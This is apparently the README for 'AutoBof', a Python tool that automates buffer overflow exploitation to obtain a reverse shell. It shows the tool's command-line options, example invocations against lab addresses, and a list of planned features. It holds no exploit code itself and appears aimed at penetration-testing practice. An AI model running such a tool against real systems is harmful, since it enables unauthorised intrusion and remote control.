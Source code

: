 # AutoBof

### A tool for automating buffer overflow exploitation.

##### Usage:
  ```
  kali@kali:~$ python3 autobof.py --rhost RHOST --rport RPORT --prefix PREFIX --suffix SUFFIX --lhost LHOST --lport LPORT
  
     -h, --help       show this help message and exit
     --rhost RHOST    target ip address  ------------- [required]
     --rport RPORT    target port -------------------- [required]
     --prefix PREFIX  string prefix ------------------ [optional; default: ""]
     --suffix SUFFIX  string suffix ------------------ [optional; default: ""]
     --lhost LHOST    listening ip address ----------- [optional; default: tun0]
     --lport LPORT    listening port ----------------- [optional; default: 443]

  ```
##### Examples:
  ```
  kali@kali:~$ python3 autobof.py --rhost 10.10.1.41 --rport 12345 --prefix "hello" --lhost eth0
  kali@kali:~$ python3 autobof.py --rhost 10.10.1.41 --rport 777 --suffix " ending string!" --lport 4444
  kali@kali:~$ python3 autobof.py --rhost 10.10.1.41 --rport 930 --prefix "Username: " --suffix "end" --lhost 192.168.1.10 --lport 1234
  ```


##### Future features:
    * Better selection of payloads.
    * Windows compatibility (msfvenom alternatives).
    * Dynamic selection of nops.
    * Dynamic adjustments to send_bytes().
    * Auto detection of register values and possibly badchars for total automation.
    * Auto creation of a poc.py file using variable values assigned.
    * Different modes (beginner/intermediate/advanced) depending on if you want to use the tool as an instructional
      walkthrough to learn bofs or if you just want to just throw it at a target and get a shell.
